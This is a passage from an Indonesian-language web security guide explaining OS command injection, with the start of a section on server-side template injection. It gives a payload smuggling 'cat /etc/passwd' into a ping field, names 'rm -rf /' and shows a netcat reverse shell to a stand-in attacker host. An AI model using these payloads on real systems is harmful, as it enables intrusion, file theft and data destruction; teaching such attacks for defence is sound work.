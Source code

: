 ### **10. OS Command Injection**

**Apa itu?**
OS Command Injection memungkinkan penyerang menjalankan perintah sistem operasi pada server melalui input aplikasi yang tidak divalidasi dengan benar.

**Cara Enumerasi:**
- **Input Fields:** Cari input yang diteruskan ke perintah shell, seperti field ping atau traceroute.
- **Special Characters:** Coba masukkan karakter seperti `;`, `&&`, atau `|` untuk memisahkan perintah.

**Cara Eksploitasi:**
- **Command Execution:** Jalankan perintah berbahaya seperti `rm -rf /`.
- **Reverse Shell:** Buka koneksi balik ke penyerang.

**Contoh Payload:**
```
127.0.0.1; cat /etc/passwd
```

**Eksploitasi Detail:**
1. **Mencari Input yang Rentan:**
   - Penyerang mencari form atau input di aplikasi yang menjalankan perintah sistem, seperti form untuk melakukan ping ke alamat IP atau domain.

2. **Menyisipkan Karakter Khusus:**
   - Penyerang memasukkan payload dengan karakter khusus untuk memisahkan perintah.
   - **Payload:** `127.0.0.1; cat /etc/passwd`
   - Jika aplikasi tidak memvalidasi input, perintah `cat /etc/passwd` akan dijalankan setelah perintah `ping`.

3. **Proses Eksekusi Perintah:**
   - Aplikasi menjalankan perintah shell yang disusun dengan input pengguna.
   - **Contoh Command yang Dijalankan:**
     ```bash
     ping 127.0.0.1; cat /etc/passwd
     ```
   - Perintah `ping` dijalankan terlebih dahulu, diikuti oleh `cat /etc/passwd`, yang menampilkan isi file `/etc/passwd`.

4. **Dampak:**
   - **Data Disclosure:** Penyerang bisa membaca file sistem yang sensitif seperti `/etc/passwd`, yang berisi informasi pengguna.
   - **Remote Code Execution:** Penyerang bisa menjalankan perintah berbahaya seperti `rm -rf /` untuk menghapus file atau `nc -e /bin/bash attacker.com 4444` untuk membuka reverse shell.
   - **Privilege Escalation:** Jika server berjalan dengan hak istimewa, penyerang bisa mendapatkan kontrol penuh atas sistem.

---

### **11. Server-Side Template Injection (SSTI)**

**Apa itu?**
SSTI memungkinkan penyerang menyuntikkan kode berbahaya ke dalam template engine server, seperti Jinja2 atau Twig, memungkinkan eksekusi kode atau akses data sensitif.
